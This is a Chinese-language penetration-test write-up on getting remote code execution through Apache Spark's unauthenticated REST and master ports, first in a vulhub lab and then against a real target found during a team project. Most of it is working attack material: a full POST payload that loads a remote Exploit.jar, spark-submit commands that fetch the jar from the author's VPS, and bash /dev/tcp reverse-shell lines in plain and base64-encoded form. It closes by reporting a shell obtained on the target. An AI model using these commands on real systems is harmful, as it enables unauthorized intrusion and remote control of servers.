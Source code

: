 ### 坑点总结
1、搭建环境时，发现端口被占用，netstat -antup查不到占用端口的pid和进程名，原因是权限不够，改用sudo netstat -antup可查到占用端口的pid和进程名  
2、阿里云vps开启nc监听时，需要加个参数n，即nc -lnvvvp 101.200.xx.xx 8888，原因未知  
3、当payload位于github上时，需考虑目标可能获取不到  
4、spark-submit下载后，执行时会报错，经排查原因是缺少依赖，改用下载更全的安装包spark-2.4.3-bin-hadoop2.7.tgz  

1、Exploit.jar链接不能是github，会获取不到  
2、反弹shell需要base64编码  
3、base64编码后需要修改Exploit.jar  

### 0x01 打点起源
团队一起做项目，同事发现一个Apache Spark未授权页面，尝试打点，故有此文
### 0x02 初次尝试
目标地址：  http://182.61.xxx.xxx:8080  
网上搜索针对Apache Spark的漏洞复现，直接打失败  
### 0x03 本地调试
本地搭建环境，使用vulhub项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)能够成功访问，环境搭建成功  
访问端口6066，能够成功访问，而目标不能访问，说明目标关闭了端口6066  
当前漏洞的利用可通过2个端口：6066、7077（防守方容易忽略端口7077），且目标没关闭7077端口，又看到希望了  
首先对本地测试针对6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
漏洞利用失败，思考了一下，可能是目标不能访问github，导致获取不到Exploit.jar，将Exploit.jar放置到自己的vps上，修改request后，重新发送请求  
成功获得响应，响应中包含driverId的值，然后用driverId的值替换下面的值，并访问如下地址
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
页面会显示成功执行后的结果  

本地测试针对7077端口的漏洞利用  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
查看执行结果还是通过上述方式，发现成功执行了命令  

通过端口7077反弹shell  
直接执行
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1"
```
vps上并没有收到反弹shell，思考了一下，可能是bash反弹shell中特殊字符的问题，对payload进行base64编码，借助如下网站：http://www.jackson-t.ca/runtime-exec-payloads.html  
编码后，发送请求，仍然没有收到反弹shell，继续排查，查看Exploit.jar的源代码发现，原作者是将
其中的
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
为
bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1
经过如下网站编码
http://www.jackson-t.ca/runtime-exec-payloads.html
```
执行后成功反弹shell  
![image](./pic/5.png)  

拿到目标测试后，成功拿到shell

参考链接：  
https://www.cnblogs.com/mutudou/p/14685277.html  
https://medium.com/@Wh0ale/apache-spark-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E-ada9eb02af65  
https://github.com/vulhub/vulhub/tree/master/spark/unacc  
https://github.com/aRe00t/rce-over-spark/blob/master/Exploit.java  
